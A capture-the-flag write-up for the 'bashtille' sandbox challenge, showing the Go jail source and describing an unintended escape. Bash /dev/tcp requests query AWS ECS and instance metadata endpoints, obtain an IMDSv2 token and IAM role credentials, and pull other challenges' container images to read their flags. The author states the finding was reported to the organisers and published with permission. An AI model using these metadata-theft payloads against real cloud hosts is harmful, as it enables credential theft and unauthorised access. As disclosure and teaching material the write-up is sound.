





# bashtille

What was supposed to be a binary exploit challenge quickly turned into a full exploration that revealed unintended access to CTF challenges and their flags.

This write-up is not focused on the challenge itself, but on the process that led to discovering this unexpected access.

***

## Description

> Through gloomy vaults where the light of day had never shown, past hideous doors of dark dens and cages, down cavernous flights of steps, and again up steep rugged ascents of stone and brick, more like dry waterfalls than staircases...
>
> ```sh
> ncat --ssl bashtille.challs.pwnoh.io 1337
> ```



## Analysis

We are given a zip file containing a Dockerfile and a source code written in Golang.




```go
package main

import (
	"context"
	"crypto/rand"
	"encoding/hex"
	"log"
	"net"
	"os"
	"os/exec"
	"runtime"
	"syscall"
	"time"
)

func handleConnection(ctx context.Context, conn net.Conn) {
	defer conn.Close()

	dir := "/app/jails/" + randomHex(16)

	cmd := exec.CommandContext(ctx, "/proc/self/exe", "child", dir)
	cmd.Stdin = conn
	cmd.Stdout = conn
	cmd.Stderr = conn
	cmd.SysProcAttr = &syscall.SysProcAttr{
		Cloneflags: syscall.CLONE_NEWUTS | syscall.CLONE_NEWPID | syscall.CLONE_NEWNS | syscall.CLONE_NEWUSER,
		UidMappings: []syscall.SysProcIDMap{
			{
				ContainerID: 0,
				HostID:      1000,
				Size:        1,
			},
		},
		Unshareflags: syscall.CLONE_NEWNS,
	}

	_ = cmd.Run()

	os.RemoveAll(dir)
}

func main() {
	switch os.Args[1] {
	case "server":
		server()
	case "child":
		child(os.Args[2])
	default:
		panic("help")
	}
}

func server() {
	listener, err := net.Listen("tcp", ":5000")
	if err != nil {
		log.Fatal("Failed to start server:", err)
	}
	defer listener.Close()

	log.Println("Listening on port 5000...")

	for {
		conn, err := listener.Accept()
		if err != nil {
			log.Println("Connection error:", err)
			continue
		}
		ctx, cancel := context.WithTimeout(context.Background(), 60*time.Second)
		go func() {
			defer cancel()
			defer runtime.GC()
			handleConnection(ctx, conn)
		}()
	}
}

func copy(src string, dst string) {
	data, err := os.ReadFile(src)
	must(err)
	must(os.WriteFile(dst, data, 0755))
}

func child(dir string) {
	must(syscall.Mkdir(dir, 0700))
	must(syscall.Mkdir(dir+"/bin", 0700))
	must(syscall.Mkdir(dir+"/lib", 0700))
	must(syscall.Mkdir(dir+"/lib/x86_64-linux-gnu", 0700))
	must(syscall.Mkdir(dir+"/lib64", 0700))

	copy("/bin/bash", dir+"/bin/bash")
	copy("/lib/x86_64-linux-gnu/libtinfo.so.6", dir+"/lib/x86_64-linux-gnu/libtinfo.so.6")
	copy("/lib/x86_64-linux-gnu/libc.so.6", dir+"/lib/x86_64-linux-gnu/libc.so.6")
	copy("/lib64/ld-linux-x86-64.so.2", dir+"/lib64/ld-linux-x86-64.so.2")

	must(syscall.Chroot(dir))

	must(os.Chdir("/"))

	cmd := exec.Command("/bin/bash", "-i")
	cmd.Stdin = os.Stdin
	cmd.Stdout = os.Stdout
	cmd.Stderr = os.Stderr

	_ = cmd.Run()
}

func must(err error) {
	if err != nil {
		panic(err)
	}
}

func randomHex(n int) string {
	bytes := make([]byte, n)
	_, err := rand.Read(bytes)
	must(err)
	return hex.EncodeToString(bytes)
}

```





```docker
FROM golang:1.25.0 AS builder
COPY bashtille.go ./
RUN go build bashtille.go

FROM debian
RUN mkdir /app
RUN mkdir -m 0333 /app/jails
USER 1000
WORKDIR /app
COPY flag.txt /app/flag.txt
COPY --from=builder /go/bashtille /app/bashtille
CMD ["/bin/bash", "-c", "while true; do timeout 1h /app/bashtille server; done"]

```




In the Dockerfile, we can see that the server would run the Golang binary with the "server" argument.

Reading the Golang source code, we can see that it accepts "server" and "child" as arguments. The "server" would handle incoming connections.

```go
func handleConnection(ctx context.Context, conn net.Conn) {
	defer conn.Close()

	dir := "/app/jails/" + randomHex(16)

	cmd := exec.CommandContext(ctx, "/proc/self/exe", "child", dir)
	cmd.Stdin = conn
	cmd.Stdout = conn
	cmd.Stderr = conn
	cmd.SysProcAttr = &syscall.SysProcAttr{
		Cloneflags: syscall.CLONE_NEWUTS | syscall.CLONE_NEWPID | syscall.CLONE_NEWNS | syscall.CLONE_NEWUSER,
		UidMappings: []syscall.SysProcIDMap{
			{
				ContainerID: 0,
				HostID:      1000,
				Size:        1,
			},
		},
		Unshareflags: syscall.CLONE_NEWNS,
	}

	_ = cmd.Run()

	os.RemoveAll(dir)
}
...
func child(dir string) {
	must(syscall.Mkdir(dir, 0700))
	must(syscall.Mkdir(dir+"/bin", 0700))
	must(syscall.Mkdir(dir+"/lib", 0700))
	must(syscall.Mkdir(dir+"/lib/x86_64-linux-gnu", 0700))
	must(syscall.Mkdir(dir+"/lib64", 0700))

	copy("/bin/bash", dir+"/bin/bash")
	copy("/lib/x86_64-linux-gnu/libtinfo.so.6", dir+"/lib/x86_64-linux-gnu/libtinfo.so.6")
	copy("/lib/x86_64-linux-gnu/libc.so.6", dir+"/lib/x86_64-linux-gnu/libc.so.6")
	copy("/lib64/ld-linux-x86-64.so.2", dir+"/lib64/ld-linux-x86-64.so.2")

	must(syscall.Chroot(dir))

	must(os.Chdir("/"))

	cmd := exec.Command("/bin/bash", "-i")
	cmd.Stdin = os.Stdin
	cmd.Stdout = os.Stdout
	cmd.Stderr = os.Stderr

	_ = cmd.Run()
}
```

For each connection, it would create a random directory under `/app/jails/`, and then execute the `bashtille` binary but with the "child" argument and with a bunch of flags. These flags are used to spawn a sandboxed child process with its own hostname, PID tree, mount points, and user privileges.

The "child" function is then ran inside the new sandboxed process, where it:

1. Copies a bunch of essential libraries and bash to their directories
2. Uses chroot to switch the root directory
3. Launches an interactive bash shell with standard input, output, and error streams connected to the client.

This effectively provides a shell to the client inside the sandboxed environment. So the goal of this challenge is to find an exploit in order to escape the sandbox and get the flag.

## Discovering the unintended

After connecting to the server, we see that there were no external commands like `cat` or `ls` that we can run (as seen by the source code).

<figure><figcaption></figcaption></figure>

We can only run built-in commands that were implemented in the shell itself, like `exec` and `echo`.

By entering `tab` twice then enter, we can see all the commands that we can run.

<figure><figcaption></figcaption></figure>

One command of interest is the `declare` command, which is used to set values to shell variables. By running it without any arguments, we can view all shell variables for the current process, including environment variables. This is also possible because the environment variables are not cleared when the "child" function is executed.

Result:


```bash
bash-5.2# declare
declare
AWS_EXECUTION_ENV=AWS_ECS_EC2
BASH=/bin/bash
BASHOPTS=checkwinsize:cmdhist:complete_fullquote:expand_aliases:extquote:force_fignore:globasciiranges:globskipdots:hostcomplete:interactive_comments:patsub_replacement:progcomp:promptvars:sourcepath
BASH_ALIASES=()
BASH_ARGC=([0]="0")
BASH_ARGV=()
BASH_CMDS=()
BASH_LINENO=()
BASH_LOADABLES_PATH=/usr/local/lib/bash:/usr/lib/bash:/opt/local/lib/bash:/usr/pkg/lib/bash:/opt/pkg/lib/bash:.
BASH_SOURCE=()
BASH_VERSINFO=([0]="5" [1]="2" [2]="37" [3]="1" [4]="release" [5]="x86_64-pc-linux-gnu")
BASH_VERSION='5.2.37(1)-release'
COLUMNS=80
DIRSTACK=()
ECS_AGENT_URI=http://169.254.170.2/api/f648b39f-82d5-48d6-812a-36d2c3ad487f
ECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/f648b39f-82d5-48d6-812a-36d2c3ad487f
ECS_CONTAINER_METADATA_URI_V4=http://169.254.170.2/v4/f648b39f-82d5-48d6-812a-36d2c3ad487f
EUID=0
GROUPS=()
HISTFILE=//.bash_history
HISTFILESIZE=500
HISTSIZE=500
HOME=/
HOSTNAME=2e91baf10093
HOSTTYPE=x86_64
IFS=$' \t\n'
LINES=24
MACHTYPE=x86_64-pc-linux-gnu
MAILCHECK=60
OPTERR=1
OPTIND=1
OSTYPE=linux-gnu
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PPID=1
PS1='\s-\v\$ '
PS2='> '
PS4='+ '
PWD=/
SHELL=/bin/sh
SHELLOPTS=braceexpand:emacs:hashall:histexpand:history:interactive-comments
SHLVL=2
TERM=dumb
UID=0
_=/usr/bin/timeout
```


Some interesting environment variables can be seen here. We see that there are EC2 URIs and also that `AWS_EXECUTION_ENC=AWS_ECS_EC2`, which states that this is hosted in an EC2 container. More details can be retrieved if we send a HTTP request to that URI, but how do we send a request if we don't have commands like `curl` or `wget`?

### Requests with redirections

One neat trick we can do is to send requests through TCP redirection using `/dev/tcp`! We don't actually need to have a `/dev` directory as this is built-in to bash.


More information on bash redirections can be read from [https://www.gnu.org/software/bash/manual/bash.html#Redirections](https://www.gnu.org/software/bash/manual/bash.html#Redirections)


Now we have a way to send network traffic, we can send a HTTP request by echoing the request header to the endpoint. A simple `echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" > /dev/tcp/example.com/80` would work.

However, this does not allow us to read the response. To read the response, we have to assign the network socket to a file descriptor (FD) for reading and writing. This can be done with `exec 3<>/dev/tcp/<host>/<port>`, which assigns the network socket to FD 3 with read/write perms (<>).

Now to write and read to the FD, we can use `>&3` and `<&3` respectively.

Payload:

```bash
bash -c '
exec 3<>/dev/tcp/169.254.170.2/80
echo -e "GET /v4/f648b39f-82d5-48d6-812a-36d2c3ad487f HTTP/1.1\r\nHost: 169.254.170.2\r\nConnection: close\r\n\r\n" >&3
while IFS= read -r -n1 char <&3; do
    printf "%s" "$char"
done'
```

Output:

<figure><figcaption></figcaption></figure>

We can see a lot of information here like how the region of this server is "**us-east-2**" and the image name is "**749980637880.dkr.ecr.us-east-2.amazonaws.com/bctf25-challenges:bashtille**". Sadly, none of these information can be used to get access to the containers.

Since we can send HTTP requests, why not try querying the AWS Instance Metadata Service (IMDS) at 169.254.169.254? This is a well-known technique in cloud exploitation.

Most AWS servers use IMDSv2 now, which requires a token. This token can be easily retrieved by sending a **PUT** request to `/latest/api/token`, with a HTTP header of `X-aws-ec2-metadata-token-ttl-seconds` set to the lifespan of the token.

Payload:

```bash
bash -c '
exec 3<>/dev/tcp/169.254.169.254/80
echo -e "PUT /latest/api/token HTTP/1.1\r\nHost: 169.254.169.254\r\nX-aws-ec2-metadata-token-ttl-seconds: 21600\r\nConnection: close\r\n\r\n" >&3
while IFS= read -r -n1 char <&3; do
    printf "%s" "$char"
done'
```

Output:

<figure><figcaption></figcaption></figure>

Then we use this token in the `X-aws-ec2-metadata-token` request header and send a request to the `/latest/meta-data/iam/security-credentials` endpoint, which gives us an IAM role named `bctf25-challenges-ecs-instance`. We then append this role to the endpoint and send another request to get the AWS credentials for that role.

Payload:

```bash
bash -c '
TOKEN="AQAEAMYcBgZ3twD9Tb2FsDrOBdQIZRVWMUOfqo2q6hGkODkr2Wfc4w=="
exec 3<>/dev/tcp/169.254.169.254/80
echo -e "GET /latest/meta-data/iam/security-credentials/bctf25-challenges-ecs-instance HTTP/1.1\r\nHost: 169.254.169.254\r\nX-aws-ec2-metadata-token: $TOKEN\r\nConnection: close\r\n\r\n" >&3
while IFS= read -r -n1 char <&3; do
    printf "%s" "$char"
done'
```

Output:

<figure><figcaption></figcaption></figure>

### Enumerating Perms

Now that I have AWS credentials for a role name `bctf25-challenges-ecs-instance`, it was pretty indicative that I was working out of the challenge scope already. However, it might still be a honeypot.


The following actions were performed with **no ill intentions** and for pure learning purposes I **DO NOT** condone this. I immediately informed the CTF organizers and stopped submitting flags for the CTF after discovering the access that this role had held.


After setting the credentials in `~/.aws/credentials`, I continued to try different aws commands that I could execute. Unfortunately, this role had very limited permissions.

<figure><figcaption></figcaption></figure>

As we know that the challenges are stored in EC2 containers, I began to focus more on commands relating to that. I eventually ran `aws ecr get-authorization-token --profile buckeye` and got a hit:

<figure><figcaption></figcaption></figure>

Searching online for this command, we see that we can base64 decode the `authorizationToken` value to get credentials that can use this in the `docker login` command.

After doing so, we successfully logged into the ECR registry!

<figure><figcaption></figcaption></figure>

### Flags!

Now we can pull any docker images in the registry with `docker pull`. To get the repository name, we can refer to the image format that we have retrieved for the current challenge "**749980637880.dkr.ecr.us-east-2.amazonaws.com/bctf25-challenges:bashtille**", changing the tag for different challenges. We can try it with the `bashtille` challenge.

<figure><figcaption></figcaption></figure>

We then run the challenge...

<figure><figcaption></figcaption></figure>

Then spawn a shell and read the flag:

<figure><figcaption></figcaption></figure>

Trying it for the `iloverust` challenge:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Aftermath

After all the screenshots, I quickly informed the organizers of this unintended vulnerability and gave them a recommended fix of just blocking requests to the IMDS from the containers.&#x20;

<figure><figcaption></figcaption></figure>

They also gave me permission to write this write-up :)

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Thanks to the Buckeye's organizer team for being so chill about this and for not freaking out when I told them I had accessed their containers. Also props to them for handling and fixing this situation with no issue!
